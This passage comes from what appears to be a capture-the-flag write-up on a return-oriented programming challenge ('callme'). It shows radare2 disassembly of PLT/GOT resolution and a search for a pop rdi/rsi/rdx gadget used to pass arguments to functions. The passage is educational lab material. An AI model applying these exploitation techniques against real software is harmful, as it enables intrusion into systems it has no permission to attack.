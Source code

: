 ```asm
\ :::::::   0x00401810      ff2512082000   jmp qword reloc.callme_three ; [0x602028:8]=0x7f9171229aaa
  :::::::   0x00401816      6802000000     push 2                      ; 2
  ========< 0x0040181b      e9c0ffffff     jmp 0x4017e0
```

The plt still points to the got, but the value in the got now points to the actual `callme_three` function:

```asm
0x7f9170f21fd8]> pd @ 0x7f9171229aaa
            0x7f9171229aaa      55             push rbp
            0x7f9171229aab      4889e5         mov rbp, rsp
            0x7f9171229aae      4883ec20       sub rsp, 0x20
            0x7f9171229ab2      897dec         mov dword [rbp - 0x14], edi
            0x7f9171229ab5      8975e8         mov dword [rbp - 0x18], esi
            0x7f9171229ab8      8955e4         mov dword [rbp - 0x1c], edx
            0x7f9171229abb      837dec01       cmp dword [rbp - 0x14], 1 ; rdi ; [0x1:4]=-1
        ,=< 0x7f9171229abf      0f85c5000000   jne 0x7f9171229b8a
        |   0x7f9171229ac5      837de802       cmp dword [rbp - 0x18], 2 ; [0x2:4]=-1 ; 2
       ,==< 0x7f9171229ac9      0f85bb000000   jne 0x7f9171229b8a
       ||   0x7f9171229acf      837de403       cmp dword [rbp - 0x1c], 3 ; [0x3:4]=-1 ; 3
      ,===< 0x7f9171229ad3      0f85b1000000   jne 0x7f9171229b8a
      |||   0x7f9171229ad9      48c745f80000.  mov qword [rbp - 8], 0
      |||   0x7f9171229ae1      488d35c80000.  lea rsi, [0x7f9171229bb0] ; "r"
      |||   0x7f9171229ae8      488d3d4b0100.  lea rdi, [0x7f9171229c3a] ; "key2.dat"
      |||   0x7f9171229aef      e8ccfcffff     call 0x7f91712297c0
      |||   0x7f9171229af4      488945f8       mov qword [rbp - 8], rax
      |||   0x7f9171229af8      48837df800     cmp qword [rbp - 8], 0
     ,====< 0x7f9171229afd      7516           jne 0x7f9171229b15
     ||||   0x7f9171229aff      488d3d3d0100.  lea rdi, [0x7f9171229c43] ; "Failed to open key2.dat"
     ||||   0x7f9171229b06      e855fcffff     call 0x7f9171229760
     ||||   0x7f9171229b0b      bf01000000     mov edi, 1
     ||||   0x7f9171229b10      e8bbfcffff     call 0x7f91712297d0

... (A BUNCH MORE LINES FROM THIS FUNCTION SKIPPED OVER) ...

```

So now that we have a sense of how plt resolution works, we can use it to call the proper functions in the correct order with the correct arguments.

In order to get the arguments to the functions we need to look for an appropriate ROP gadget.
The first argument is `rdi`, the second argument is `rsi`, and the third argument is `rdx`. So let's look for a `pop rdx` gadget:

```asm
[0x00401a05]> /R pop rdx
  0x00401aab         0f1f440000  nop dword [rax + rax]
  0x00401ab0                 5f  pop rdi
  0x00401ab1                 5e  pop rsi
  0x00401ab2                 5a  pop rdx
  0x00401ab3                 c3  ret

  0x00401aad             440000  add byte [rax], r8b
  0x00401ab0                 5f  pop rdi
  0x00401ab1                 5e  pop rsi
  0x00401ab2                 5a  pop rdx
  0x00401ab3                 c3  ret

  0x00401aae               0000  add byte [rax], al
  0x00401ab0                 5f  pop rdi
  0x00401ab1                 5e  pop rsi
  0x00401ab2                 5a  pop rdx
  0x00401ab3                 c3  ret
```